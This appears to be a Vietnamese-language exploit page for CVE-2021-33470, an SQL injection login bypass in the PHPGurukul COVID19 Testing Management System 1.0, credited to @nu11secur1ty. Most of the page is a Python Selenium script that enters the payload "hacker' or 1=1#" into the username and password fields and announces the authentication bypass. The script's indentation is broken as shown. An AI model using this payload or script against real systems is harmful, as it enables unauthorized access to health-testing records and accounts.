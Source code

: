 ```yaml
---
title: Khai thác hệ thống quản lý kiểm tra COVID19 1.0 - (SQL Injection)
date: 9/6/2021
layout: single

--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

## Mô Tả 
+ Lỗi: CVE-2021-33470
+ Tác giả: @nu11secur1ty
+ Link: [Hệ thống quản lý kiểm tra COVID19 sử dụng PHP và MySQL](https://phpgurukul.com/covid19-testing-management-system-using-php-and-mysql)


--- 
## Bảng Demo khai thác
![demo](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-33470/CVE-2021-33470.gif?raw=true)

---

## Mã khai thác

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*- 
# Author: @nu11secur1ty
# Debug: @nu11secur1ty
# CVE: CVE-2021-33470
 
from selenium import webdriver
import time
 
 
#nhập liên kết đến trang web bạn muốn đăng nhập tự động.
website_link="http://target/Covid19-TMS%20Project%20Using%20PHP%20and%20MySQL/covid-tms/login.php"
 
#enter your login username SQL bling injection
username="hacker' or 1=1#"
#enter your login password SQL bling injection
password="hacker' or 1=1#"
 
# test and proof the SQL injection
# user: admin
# password: password
 
#enter the element for username input field
element_for_username="username"
#enter the element for password input field
element_for_password="inputpwd"
 
#enter the element for submit button by class
element_for_submit="btn.btn-primary.btn-user.btn-block"
 
#browser = webdriver.Safari() #for macOS users[for others use chrome vis
chromedriver]
browser = webdriver.Chrome() #uncomment this line,for chrome users
#browser = webdriver.Firefox() #uncomment this line,for chrome users
 
browser.get((website_link))
 
try:
username_element = browser.find_element_by_name(element_for_username)
username_element.send_keys(username)
password_element  = browser.find_element_by_name(element_for_password)
password_element.send_keys(password)
time.sleep(3)
signInButton = browser.find_element_by_class_name(element_for_submit)
signInButton.click()
 
print("payload is deployed NOW, you have SQL Authentication Bypass =)...\n")
 
except Exception:
#### This exception occurs if the element are not found in the webpage.
print("Some error occured :(")
```

---
## Bạn có thể tham khảo đầy đủ tại đây 
+ [https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-33470](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-33470)
## Chúc May Mắn :D